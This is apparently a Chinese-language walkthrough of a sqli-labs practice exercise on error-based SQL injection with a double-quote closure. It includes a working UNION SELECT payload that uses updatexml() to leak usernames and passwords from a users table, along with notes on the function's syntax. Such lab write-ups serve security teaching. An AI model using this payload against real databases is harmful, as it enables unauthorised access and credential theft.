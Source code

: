 ## 报错注入
其实与 less-5 一样，只是用双引号闭合

在这一题尝试用新方法解决

1. 单引号闭合不报错，双引号闭合报错：use near '"1"" LIMIT 0,1' at line 1说明是用双引号闭合的

2. ```sql
   union select 1,2,updatexml('yemaster', substring(concat(0x7e, (select group_concat(username,'~',password) from users)),4,30),"aaa")
   ```

3. 就是比 extractvalue 多一项无用的参数



利用 updatexml() 报错注入，原理与 extractvalue() 一致

```
select updatexml('XML_document','Xpath_string','New_content') from xml
```

用于更新 xml 文件内容

同样在 xpath 中第一位改为 ~ 用于报错